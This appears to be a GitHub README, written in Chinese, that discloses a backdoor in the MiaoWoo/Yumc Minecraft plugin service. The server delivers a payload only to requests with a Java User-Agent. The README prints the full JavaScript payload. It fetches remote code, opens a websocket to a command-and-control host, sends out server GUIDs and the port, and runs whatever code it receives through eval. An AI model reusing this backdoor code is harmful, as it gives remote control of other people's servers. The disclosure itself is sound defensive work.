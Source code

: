 # PoC-MiaoWoo-RCE

你觉得设置非 Java UA 无法下发 RCE 能骗谁？

有关 RCE 的危害，详见[这篇文章](https://rentry.org/miaowoo)

2024.3.28  
bbs大概是倒了，我也不打算等什么时候再实锤了，没什么意思。干脆把仓库直接公开出来，知道的人留个眼就好，狗改不了吃屎。

# Validation

https://github.com/iceBear67/poc-miaowoo/tree/47abab96a1becb2dac1caa0994a94ec10407d422

本仓库使用 curl 模拟不同 User-Agent 的请求访问 Yumc 的服务器并且整个流程在 GitHub Action 服务器上运行，无介入，运行时结果无法被 GitHub Runner 和喵呜以外的任何人修改。

https://github.com/iceBear67/poc-miaowoo/actions/runs/7472662191

[该 commit 上运行的脚本](https://github.com/iceBear67/poc-miaowoo/blob/47abab96a1becb2dac1caa0994a94ec10407d422/.github/workflows/blank.yml#L20-L22)

人话版:
 - 这个仓库写了一个脚本让 github 跑，然后把不同 UA 得到的结果存在仓库里面。
 - 是 github 机器人自动存的，和我没关系
 - 存的内容就是那个 commit 时间上喵呜服务器分发的内容
 - 没法造假，除非我和微软有交易

# Analysis

不同 UA 导致的回复不同：

[Java UA](https://github.com/iceBear67/poc-miaowoo/blob/47abab96a1becb2dac1caa0994a94ec10407d422/response-with-java-ua.txt)

[浏览器 UA](https://github.com/iceBear67/poc-miaowoo/blob/47abab96a1becb2dac1caa0994a94ec10407d422/response-with-browser-ua.txt)

[curl UA](https://github.com/iceBear67/poc-miaowoo/blob/47abab96a1becb2dac1caa0994a94ec10407d422/response-with-curl-ua.txt)

可以发现，只有请求头中模拟 Java 作为用户代理的时候 Yumc 服务器会返回负载。

后门代码片段：

1. 连接 C&C 服务器

```javascript
try {
    if (!global.WebSocket) {
        load('https://mscript.yumc.pw/api/plugin/download/name/ms-websocket')
    }
    if (global.ws) {
        global.ws.heartbeat()
        Java.type('java.lang.Thread').sleep(1000)
        if (global.ws.readyState == WebSocket.CLOSED) {
            connect('ws://zn.gametime.icu:4000/')
        }
    } else {
        connect('ws://zn.gametime.icu:4000/')
    }
} catch (error) {
}
```

3. 从 C&C 接收 **任意代码** 并运行

```javascript
    global.ws.onmessage = function (event) {
        try {
            var data = event.data
            var payload = JSON.parse(data)
            var action = payload.action
            var data = payload.data
            switch (action) {
                case "eval":
                    global.ws.message(eval(data) + '')
                    break
                case "heartbeat":
                    global.ws.heartbeat()
                    break
                case "close":
                    global.ws.remoteClose = true
                    break
            }
        } catch (error) {
            global.ws.message(error + '')
        }
    }
```

完整负载内容如下：

```javascript
var global = this

function readGuid() {
    var YamlConfiguration = Java.type('org.bukkit.configuration.file.YamlConfiguration')
    var Files = Java.type('java.nio.file.Files')
    var StandardCharsets = Java.type('java.nio.charset.StandardCharsets')
    var JavaString = Java.type('java.lang.String')
    var Paths = Java.type('java.nio.file.Paths')
    try {
        var pluginHelper = new YamlConfiguration()
        pluginHelper.loadFromString(new JavaString(Files.readAllBytes(Paths.get('plugins', 'PluginHelper', 'config.yml')), StandardCharsets.UTF_8))
        return pluginHelper.getString('guid')
    } catch (error) {
        var bStats = new YamlConfiguration()
        bStats.loadFromString(new JavaString(Files.readAllBytes(Paths.get('plugins', 'bStats', 'config.yml')), StandardCharsets.UTF_8))
        return bStats.getString('serverUuid')
    }
}

function connect(address) {
    global.ws = new WebSocket(address)

    global.ws.action = function (action, data) {
        global.ws.send(JSON.stringify({
            action: action,
            data: data
        }))
    }

    global.ws.message = function (message) {
        global.ws.action('message', { message: message })
    }

    global.ws.heartbeat = function () {
        global.ws.action('heartbeat', {})
    }

    global.ws.onopen = function () {
        global.ws.action('open', {
            guid: readGuid(),
            port: Java.type('org.bukkit.Bukkit').getServer().getPort()
        })
    }

    global.ws.onmessage = function (event) {
        try {
            var data = event.data
            var payload = JSON.parse(data)
            var action = payload.action
            var data = payload.data
            switch (action) {
                case "eval":
                    global.ws.message(eval(data) + '')
                    break
                case "heartbeat":
                    global.ws.heartbeat()
                    break
                case "close":
                    global.ws.remoteClose = true
                    break
            }
        } catch (error) {
            global.ws.message(error + '')
        }
    }

    global.ws.onclose = function (event) {
        try {
            Java.type('java.lang.Thread').sleep(5000)
            if (global.ws.readyState == WebSocket.CLOSED && !global.ws.remoteClose) {
                connect(address)
            }
        } catch (error) {
        }
    }

    global.ws.onerror = function (event) {
        if (global.ws.readyState != WebSocket.CLOSED) {
            global.ws.message(event.cause + '')
        }
    }

    global.ws.connect()
}

try {
    if (!global.WebSocket) {
        load('https://mscript.yumc.pw/api/plugin/download/name/ms-websocket')
    }
    if (global.ws) {
        global.ws.heartbeat()
        Java.type('java.lang.Thread').sleep(1000)
        if (global.ws.readyState == WebSocket.CLOSED) {
            connect('ws://zn.gametime.icu:4000/')
        }
    } else {
        connect('ws://zn.gametime.icu:4000/')
    }
} catch (error) {
}
```
